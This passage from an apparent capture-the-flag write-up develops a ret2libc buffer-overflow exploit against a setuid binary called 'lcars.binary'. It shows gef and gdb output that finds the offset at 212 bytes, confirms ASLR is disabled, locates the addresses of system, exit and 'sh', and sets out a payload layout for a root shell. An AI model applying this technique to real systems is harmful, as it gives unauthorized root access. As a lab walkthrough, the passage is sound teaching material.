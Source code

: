 ```console
0xffffcd24│+0x0004: "faacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacra[...]" 
0xffffcd28│+0x0008: "gaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsa[...]" 
0xffffcd2c│+0x000c: "haaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaacta[...]" 
0xffffcd30│+0x0010: "iaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacua[...]" 
0xffffcd34│+0x0014: "jaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacva[...]" 
0xffffcd38│+0x0018: "kaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwa[...]" 
0xffffcd3c│+0x001c: "laacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxa[...]" 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ──── 
[!] Cannot disassemble from $PC 
[!] Cannot access memory at address 0x63616164 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ──── 
[#0] Id 1, Name: "lcars.binary", stopped 0x63616164 in ?? (), reason: SIGSEGV 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ──── 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── 
gef➤  pattern search 0x63616164 
[+] Searching '0x63616164' 
[+] Found at offset 212 (little-endian search) likely 
[+] Found at offset 308 (big-endian search) 
```
The contents of ```/proc/sys/kernel/randomize_va_space```, confirms that the target does not have **ASLR** enabled.
```console
www-data@enterprise:/bin$ cat /proc/sys/kernel/randomize_va_space 
cat /proc/sys/kernel/randomize_va_space 
0
```
With no ASLR protection, all that is needed are the addresses of *system, exit* and *sh*. The same are found 
on the target as follows.
```console
(gdb) p system 
$3 = {<text variable, no debug info>} 0xf7e4c060 <system> 
(gdb) p exit 
$4 = {<text variable, no debug info>} 0xf7e3faf0 <exit> 
(gdb) find &system,+9999999, "/bin/sh" 
0xf7f70a0f 
warning: Unable to access 16000 bytes of target memory at 0xf7fca797, halting search. 
1 pattern found. 
(gdb) find &system,+9999999, "sh" 
0xf7f6ddd5 
0xf7f6e7e1 
0xf7f70a14 
0xf7f72582 
warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search. 
4 patterns found.
```
Technically, ```212*'A' + system + exit + sh``` should spawn a root shell.

